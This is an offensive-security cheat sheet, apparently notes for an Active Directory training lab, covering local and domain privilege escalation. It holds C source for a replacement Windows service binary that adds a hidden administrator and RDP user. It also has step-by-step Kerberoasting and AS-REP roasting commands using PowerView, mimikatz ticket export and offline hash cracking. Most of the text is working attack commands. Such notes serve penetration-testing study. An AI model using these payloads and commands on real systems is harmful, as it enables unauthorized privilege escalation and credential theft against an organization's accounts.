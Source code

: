 #### Local PrivEsc - Replace Service Binary
```c
//i686-w64-mingw32-gcc adduser.c -o adduser.exe
#include <windows.h>

void main(){
    system("cmd /c net user hack potatoPOTATO3$ /add");
    system("cmd /c net localgroup Administrators hack /add");
    system("cmd /c net localgroup \"Remote Desktop Users\" hack /add");
}
```

### Domain PrivEsc
**NOTE: When messing with tickets, ACLs, etc, may need to logoff/logon, or do it a few times, or reboot for changes to take effect**

#### Privilege Escalation - Kerberoast
* Save TGS and bruteforce it offline. 
* The TGS has a server portion encrypted with the password hash of the service account.
* These hashes can then be used to create Silver Tickets
* Quite discreet/stealthy 
* *BUT*: Machine Service Accounts typically have very long, complex passwords difficult to bruteforce. Therefore, we will target user accounts that are being used as service accounts
  * `Get-NetUser -SPN` (PowerView)
  * `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName` (AD Module)
* Request TGS
  * `Request-SPNTicket -SPN MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local` (PowerView)
  * `Add-Type -AssemblyName System.IdentityModel` <br/>
    `New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"` (Raw PS)
  * `klist` to verify
* Dump tickets with mimikatz `Invoke-Mimikatz -Command '"kerberos::list /export"'` - outputs `.kirbi` files to current dir
* Crack hash: `python .\tgsrepcrack.py .\10k-worst-pass.txt C:\ad\1-40a10000-Administrator@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi`

#### Privilege Escalation - Kerberoast: Targeted Kerberoasting - Kerberos Preauth Disabled
* If Kerberos Preauth is disabled, it is possible to grab a user's crackable AS-REP and bruteforce it offline without having access to the user account
* Enumerating such accounts
  * `Get-DomainUser -PreauthNotRequired -Verbose` (PowerView - dev)
  * `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth` (AD Module)
* Force disable preauth (if you have sufficient rights) (PowerView)
  1. Identify those accounts to which you have sufficient rights to disable preatuh: `Invoke-ACLScanner -ResolveGUIDs | ? {$_.IdentityReferenceName -match "RDPUsers"}`
  1. Disable Preauth: `Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose`
  1. Enumerate again to check that the change has taken place
* Request encrypted AS-REP for offline bruting (ASREPRoast)
  * `Get-ASREPHash -UserName VPN1user -Verbose`
  * Enumerate all users with kerberos preauth disabled and request hashes: `Invoke-ASREPRoast -Verbose`
* Crack hashes with john or hashcat

